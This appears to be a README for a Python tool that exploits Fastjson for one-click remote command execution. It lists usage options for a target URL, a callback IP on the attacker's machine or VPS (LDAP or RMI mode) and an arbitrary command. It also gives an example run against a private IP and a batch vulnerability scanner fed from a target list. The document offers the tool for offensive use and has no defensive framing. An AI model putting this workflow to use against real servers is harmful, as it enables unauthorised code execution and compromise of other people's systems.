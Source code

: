 # fastjson_rec_exploit
fastjson一键命令执行

脚本使用：

usage: Fastjson one-key command is executed! [-h] [-u URL] [-s SELF] [-c COMMAMD]

python3 fastjson.py -u [Target Url] -s [self IP] -c [command]

optional arguments:

  -h, --help            show this help message and exit

  -u URL, --url URL     漏洞url

  -s SELF, --self SELF  自己IP，如果是VPS请输入公网IP

  -c COMMAMD, --commamd COMMAMD 执行的命令,有空格请加上双引号

  -m [MODE], --mode [MODE]  选择执行模式(可选)，1：ldap模式(默认)；2：rmi模式

python3 fastjson.py -u http://192.168.1.3/ -s 192.168.1.1 -c "touch /tmp/test.txt

使用截图：

![image](img/%E6%94%BB%E5%87%BB%E6%88%AA%E5%9B%BE.png)

![image](img/%E9%9D%B6%E6%9C%BA%E6%88%AA%E5%9B%BE.png)


批量检测链接放target.txt中。
usage:python3 fastjson_check.py

![image](img/1.png)
